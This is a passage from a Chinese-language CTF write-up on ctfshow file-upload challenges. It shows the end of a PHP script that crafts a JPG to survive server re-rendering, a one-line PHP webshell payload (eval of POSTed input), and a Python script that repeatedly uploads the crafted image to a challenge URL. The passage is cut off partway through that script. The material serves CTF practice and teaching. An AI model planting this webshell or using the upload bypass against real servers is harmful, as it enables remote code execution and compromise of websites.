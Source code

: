 ```php
            if($this->order) {
                $short = (ord($short[1]) << 8) + ord($short[0]);
            } else {
                $short = (ord($short[0]) << 8) + ord($short[1]);
            }
            return $short;
        }
 
        public function eof() {
            return !$this->binData||(strlen($this->binData) === 0);
        }
    }
?>
```

```bash
# 生成二次渲染的jpg图片
php 文件名.php 文件名.jpg
```

![gen](https://the0n3.top/medias/show-upload/24.png)


```php
# 渲染后php木马内容
<?=eval($_POST[1]);?>
```

如果是自己准备的图片，上传后大概会失败

CTFshow群主推荐的二次渲染专用图
![jpg](https://the0n3.top/medias/show-upload/0.jpg)

我准备了一个脚本(激动，终于成功了，师傅们一定要试一试！！！)

```python
import requests
import random
import string

# 配置
image_path = 'payload_cola1.jpg'  # 图片路径
url = 'http://0092bb15-7d1d-4a6c-8f9d-c9ac4a6076fa.challenge.ctf.show/'
upload_url = url + 'upload.php'  # 上传接口 URL
get_url = url + 'download.php?image='  # 访问接口
output_path = 'success_image1.jpg'  # 保存路径

def generate_random_string(length):
    characters = string.ascii_letters + string.digits + string.punctuation
    return ''.join(random.choice(characters) for _ in range(length))

# 读取图片文件
with open(image_path, 'rb') as image_file:
    image_data = image_file.read()

while True:
    # 生成30到50位长度的随机字符串
    random_length = random.randint(30, 50)
    text_to_append = generate_random_string(random_length).encode('utf-8')  # 要追加的文本

    # 追加文本到图片数据
    modified_image_data = image_data + text_to_append
    # 在图片数据开头插入文本，报错
    # modified_image_data = text_to_append + image_data

    # 准备上传
```